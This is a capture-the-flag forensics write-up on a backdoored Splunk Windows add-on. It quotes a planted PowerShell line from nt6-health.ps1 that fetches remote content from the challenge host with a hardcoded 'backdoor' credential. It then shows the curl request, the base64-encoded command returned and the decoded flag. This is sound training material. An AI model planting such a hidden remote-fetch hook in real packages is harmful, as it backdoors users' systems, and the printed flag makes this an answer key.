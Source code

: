 # ✅ FORENSICS - Backdoored Splunk

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- medium

Files:

- [Splunk_TA_windows.zip](./Splunk_TA_windows.zip)

## Description

Author: Adam Rice

You've probably seen Splunk being used for good, but have you seen it used for evil?  NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started,  but you must put the puzzle pieces together to be retrieve the flag.  Download the file(s) below and press the `Start` button on the top-right to begin this challenge.

## Writeup

The challenge description says to start the service and connect to it by piece together stuff from the download. If you visit the challenge server URL you'll get an Access Denied error.

If you search for the server hostname, `chal.ctf.games`. you'll find something interesting:

![ripgrep](./ripgrep.png)

```shell
$ rg chal.ctf.games
Splunk_TA_windows/bin/powershell/nt6-health.ps1
95:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

And you should quickly see what to do:

![Authenticate for the flag](./flag.png)

```shell
$ curl -H 'Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=='     http://chal.ctf.games:31106
<!-- ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==
$ echo -n 'ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==' | base64 -d
echo flag{60bb3bfaf703e0fa36730ab70e115bd7}
```
